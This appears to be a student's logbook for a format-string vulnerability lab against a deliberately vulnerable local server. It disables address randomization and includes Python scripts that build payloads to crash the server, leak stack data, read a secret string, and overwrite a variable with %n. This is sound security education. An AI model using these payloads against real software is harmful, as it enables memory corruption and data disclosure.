

# Log Book 6

## Environment Setup

### Disable adress randomization

`sudo sysctl -w kernel.randomize_va_space=0`

### Server output

This is a sample output of the server.

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd840
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 6 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd768
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hello
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
## Task 1

For this task we had to construct a simple payload to exploit the format-string
vulnerability in the server. By analyzing the program source code we can see that the 
program reads user input into the buf variable. Then, this data is passde to 
`myprintf()` to print out the data. We were able to crash the server by filling the 
buf variable with multiple *%s*.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

for i in range(0, N, 2):
  content[i:i+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
## Task 2
### Task 2.A

// TODO: How many %x

The objective of this task is to print out the data on the stack and to print
out the first four bytes of our input. To do this we started by choosing some
unique numbers (4 bytes) so we can immediately tell when they are printed out.
We chose 0xaabbccdd. The rest of the payload is filled with ?? *%x* format specifiers. 

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaabbccdd
content[0:4]  =  (number).to_bytes(4,byteorder='little')

n = 64
x = "%x"
for i in range(4, 4 + 2 * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```


### Task 2.B

TODO

For this task there was a secret message string stored in the heap area that we had 
to find. For this task, the first four bytes of the payload were filled with
the secret message address that was given. Then, our input is followed by ?? *%x* 
format specifiers which will print out the data on the stack we finish by
adding a *%s* format specifier that will print the secret message string.

The secret message string was: "A secret message"

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

secret_addr  = 0x080b4008
content[0:4]  =  (secret_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```


## Task 3

### Task 3.A

TODO

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%n").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```



### Task 3.B

TODO

```py
#!/usr/bin/python3
import sys
from math import floor

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n_bytes_to_print = 0x5000
n = 64 - 1
x_size = int(floor(n_bytes_to_print/n))
x = "%0" + str(x_size) + "x"
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# write number of written bytes to var
s_offset = skip_b + len(x) * n
# need to subtract 4 because it will write 4 bytes for the string
remaining = (n_bytes_to_print - (x_size * n)) - 4
n_str = "0"*remaining + "%n"
content[s_offset:s_offset+len(n_str)] = (n_str).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```


